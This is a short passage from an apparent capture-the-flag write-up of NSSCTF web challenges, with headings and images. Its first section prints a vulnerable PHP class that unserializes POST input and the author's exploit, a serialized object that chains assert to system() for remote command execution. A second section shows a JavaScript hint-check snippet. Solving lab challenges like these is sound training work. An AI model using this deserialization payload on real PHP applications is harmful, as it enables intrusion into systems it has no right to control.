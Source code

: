 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210040923561.png)

## 1z_unserialize

```php
<?php

class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;

     function  __destruct()
     {
        $a = $this->lt;

        $a($this->lly);
     }

}
unserialize($_POST['nss']);
highlight_file(__FILE__);

?> 
```

简单反序列化

```php
<?php

class lyh{
    public $lt = 'assert';
    public $lly = 'system($_GET[1]);';
}

echo serialize(new lyh());
?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210041230712.png)

## xff

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210041231766.png)

## js_sign

右键查看 main.js

```js
document.getElementsByTagName("button")[0].addEventListener("click", ()=>{
    flag="33 43 43 13 44 21 54 34 45 21 24 33 14 21 31 11 22 12 54 44 11 35 13 34 14 15"
    if (btoa(flag.value) == 'dGFwY29kZQ==') {
        alert("you got hint!!!");
    } else {
        alert("fuck off !!");
    }    
})
```
